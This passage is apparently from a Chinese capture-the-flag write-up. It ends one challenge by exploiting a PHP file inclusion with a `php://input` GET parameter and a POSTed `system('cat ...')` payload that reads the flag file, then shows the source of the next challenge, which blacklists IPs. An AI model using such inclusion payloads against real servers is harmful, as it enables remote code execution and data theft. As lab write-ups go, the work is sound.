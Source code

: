 然后访问之后就会看到

![](15.png)

当前路径下有三个文件，然后我们访问一下第一个最有可能的文件：

利用burpsuite抓包

仍然利用之前的payload get传入`?path=php://input`

post传入`<?php system('cat dle345aae.php'); ?>`

![](16.png)

然后得到页面返回的flag

![](17.png)

### [](#6-攻击 "6.攻击")6.攻击

题目内容：一个ip只有一个机会，哈哈哈。

进去后就给了源代码：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br></pre></td><td class="code"><pre><span class="line">&lt;?php</span><br><span class="line">header("content-type:text/html;charset=utf-8");</span><br><span class="line">show_source(__FILE__);</span><br><span class="line">echo '&lt;pre&gt;';</span><br><span class="line">include('u/ip.php');</span><br><span class="line">include('flag.php');</span><br><span class="line">if (in_array($_SERVER['REMOTE_ADDR'],$ip)){</span><br><span class="line">  die("您的ip已进入系统黑名单");</span><br><span class="line">}</span><br><span class="line">var_dump($ip);</span><br><span class="line"></span><br><span class="line">if ($_POST[substr($flag,5,3)]=='attack'){</span><br><span class="line">  echo $flag;</span><br><span class="line">}else if (count($_POST)&gt;0){</span><br><span class="line">  $ip = '$ip[]="'.$_SERVER['REMOTE_ADDR'].'";'.PHP_EOL; </span><br><span class="line">  file_put_contents('u/ip.php',$ip,FILE_APPEND);</span><br><span class="line">}</span><br><span class="line">echo '&lt;/pre&gt;';</span><br></pre></td></tr></tbody></table>
